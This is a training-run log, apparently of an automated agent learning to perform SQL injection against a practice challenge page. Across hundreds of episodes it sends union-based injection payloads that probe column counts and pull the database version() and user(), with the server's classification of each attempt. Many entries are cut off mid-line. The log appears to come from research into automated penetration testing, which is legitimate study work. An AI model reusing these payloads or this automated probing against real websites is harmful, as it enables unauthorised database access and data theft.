Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 920/1000000 [5:20:32<2270:43:45,  8.18s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 921/1000000 [5:20:33<1663:18:22,  5.99s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 922/1000000 [5:20:34<1238:48:36,  4.46s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2--
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'u

  0%|          | 923/1000000 [5:22:12<9016:43:25, 32.49s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 924/1000000 [5:22:13<6394:00:15, 23.04s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Qu

  0%|          | 925/1000000 [5:22:52<7729:22:36, 27.85s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union sel

  0%|          | 926/1000000 [5:24:31<13624:47:58, 49.09s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 927/1000000 [5:24:34<9831:27:07, 35.43s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 928/1000000 [5:24:35<6985:52:12, 25.17s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Sy

  0%|          | 929/1000000 [5:25:13<8036:19:35, 28.96s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 930/1000000 [5:25:15<5744:50:19, 20.70s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 931/1000000 [5:25:18<4269:16:45, 15.38s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 932/1000000 [5:25:19<3102:37:34, 11.18s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 933/1000000 [5:25:20<2280:55:41,  8.22s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server

  0%|          | 934/1000000 [5:26:51<9117:01:20, 32.85s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server r

  0%|          | 935/1000000 [5:29:54<21647:16:17, 78.00s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is

  0%|          | 936/1000000 [5:30:20<17338:43:59, 62.48s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 937/1000000 [5:30:21<12172:52:20, 43.86s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 938/1000000 [5:30:22<8600:13:03, 30.99s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
Server response is -1
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select versi

  0%|          | 939/1000000 [5:31:30<11724:03:39, 42.25s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 940/1000000 [5:31:31<8291:22:47, 29.88s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 941/1000000 [5:31:32<5888:06:06, 21.22s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server response is 4
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server respons

  0%|          | 942/1000000 [5:34:19<18013:11:54, 64.91s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version() --
Query with differenc number of column
Server response is 4
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'uni

  0%|          | 943/1000000 [5:35:34<18842:38:06, 67.90s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 944/1000000 [5:35:35<13266:00:24, 47.80s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 945/1000000 [5:35:37<9451:32:32, 34.06s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1

  0%|          | 946/1000000 [5:35:47<7489:04:23, 26.99s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union sel

  0%|          | 947/1000000 [5:37:50<15421:59:03, 55.57s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 948/1000000 [5:37:51<10877:06:15, 39.19s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server respo

  0%|          | 949/1000000 [5:38:05<8849:44:23, 31.89s/it] 

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 950/1000000 [5:38:06<6273:05:20, 22.60s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 951/1000000 [5:38:07<4467:28:21, 16.10s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 952/1000000 [5:38:08<3205:07:11, 11.55s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Serv

  0%|          | 953/1000000 [5:39:12<7588:28:04, 27.34s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 954/1000000 [5:39:13<5389:40:35, 19.42s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 union select 1,version(),3 --
https://zixem.altervista.org/S

  0%|          | 955/1000000 [5:40:01<7714:35:38, 27.80s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 956/1000000 [5:40:02<5474:31:05, 19.73s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
Server response is -1
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select version

  0%|          | 957/1000000 [5:42:14<14887:57:25, 53.65s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3 --
Nothing reponse
Server response is -1
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 958/1000000 [5:42:20<10889:33:28, 39.24s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union s

  0%|          | 959/1000000 [5:42:29<8393:10:06, 30.24s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 960/1000000 [5:42:30<5958:54:49, 21.47s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 961/1000000 [5:42:31<4247:34:43, 15.31s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 962/1000000 [5:42:32<3048:58:27, 10.99s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 -

  0%|          | 963/1000000 [5:43:24<6489:15:03, 23.38s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/

  0%|          | 964/1000000 [5:46:10<18295:50:05, 65.93s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 965/1000000 [5:46:14<13200:11:20, 47.57s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 966/1000000 [5:46:15<9323:01:13, 33.60s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax e

  0%|          | 967/1000000 [5:46:31<7813:53:34, 28.16s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax e

  0%|          | 968/1000000 [5:47:02<8031:51:25, 28.94s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server res

  0%|          | 969/1000000 [5:47:25<7592:45:59, 27.36s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,2,3--
